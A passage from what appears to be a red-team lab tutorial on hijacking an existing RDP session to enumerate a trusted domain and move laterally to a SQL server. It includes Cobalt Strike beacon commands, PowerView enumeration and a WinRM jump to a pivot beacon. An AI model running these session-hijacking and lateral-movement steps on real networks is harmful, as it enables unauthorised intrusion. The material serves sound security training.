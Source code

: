 ```
beacon> getuid
[*] You are ZPS\jean.wise
```

If we import a tool, like PowerView and do `Get-Domain`, we get a result that is actually returned from the `zeropointsecurity.local` domain.

```
beacon> powershell Get-Domain

Forest                  : zeropointsecurity.local
DomainControllers       : {dc01.zeropointsecurity.local}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : dc01.zeropointsecurity.local
RidRoleOwner            : dc01.zeropointsecurity.local
InfrastructureRoleOwner : dc01.zeropointsecurity.local
Name                    : zeropointsecurity.local
```

This works because we're inside a valid `zeropointsecurity.local` domain context. We didn't perform any authentication across that trust, we simply hijacked an existing authenticated session. We can now enumerate the foreign domain, run PowerView, SharpView, SharpHound, whatever we like.

If `jean.wise` has privileged access in `zeropointsecurity.local`, it would be fairly trivial to move laterally from this domain context. We can figure out that `jean.wise` is a member of a `System Admins` domain group, which is a member of the local Administrators on SQL01.

We didn't see port 445 open, so we can't do anything over file shares, but 5985 is.

```
beacon> remote-exec winrm sql01.zeropointsecurity.local whoami; hostname

zps\jean.wise
sql01

beacon> jump winrm64 sql01.zeropointsecurity.local pivot-sql-1
[+] established link to child beacon: 10.10.18.221
```

![.gitbook/assets/1663788103.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788105/ca017iqtyisypnnogwrp.png)

I use another Pivot Listener here because with the Windows Firewall enabled on SQL01, we can't connect inbound to 445 (so no SMB listener) or other arbitrary ports like 4444 (so no TCP listener). The Windows Firewall is not enabled on SQL-1, so we can bind to a high-port and catch the reverse connection from the Pivot Listener.

If the Windows Firewall was also enabled on SQL-1, we'd likely need to attempt to open a port using `netsh`.

Even if `jean.wise` was not a local admin on SQL01, or if none of the juicy management ports were available, it can still be possible to move laterally via the established RDP channel. This is where the drive sharing comes into play.
